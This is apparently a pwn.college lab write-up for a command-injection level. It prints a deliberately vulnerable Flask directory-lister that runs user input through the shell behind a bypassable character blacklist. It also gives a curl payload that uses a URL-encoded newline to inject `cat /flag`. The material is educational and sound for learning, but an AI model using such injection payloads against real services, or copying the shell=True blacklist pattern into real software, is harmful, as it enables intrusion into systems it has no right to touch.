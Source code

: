 This level is a classic command injection into the `ls` command. However, there's a lot of sanitization happening before the command is run.

```python
#!/opt/pwn.college/python

import subprocess
import flask
import os

app = flask.Flask(__name__)

@app.route("/", methods=["GET"])
def challenge():
    directory = (
        flask.request.args.get("directory", "/challenge")
        .replace(";", "")
        .replace("&", "")
        .replace("|", "")
        .replace(">", "")
        .replace("<", "")
        .replace("(", "")
        .replace(")", "")
        .replace("`", "")
        .replace("$", "")
    )
    command = f"ls -l {directory}"
    print(f"DEBUG: {command=}")

    listing = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form><input type=text name=directory><input type=submit value=Submit></form>
        <hr>
        <b>Output of: ls -l {directory}</b><br>
        <pre>{listing}</pre>
        </body></html>
        """

os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

From the blacklist, I found that there are some characters like `\`, `!`, `{`, `}` that aren't blacklisted and might lead to some security issues. Out of the list of the 4 characters above, `\` has some potential in separating commands.

If you've ever written a bash script or mess around with the terminal before, you'll know that commands can be separated with the newline character `\n`. So we can try doing that in this level. The `%0A` is the URL encoded version of the newline character:

```bash
curl -v "http://challenge.localhost:80?directory=/%0Acat%20/flag"
```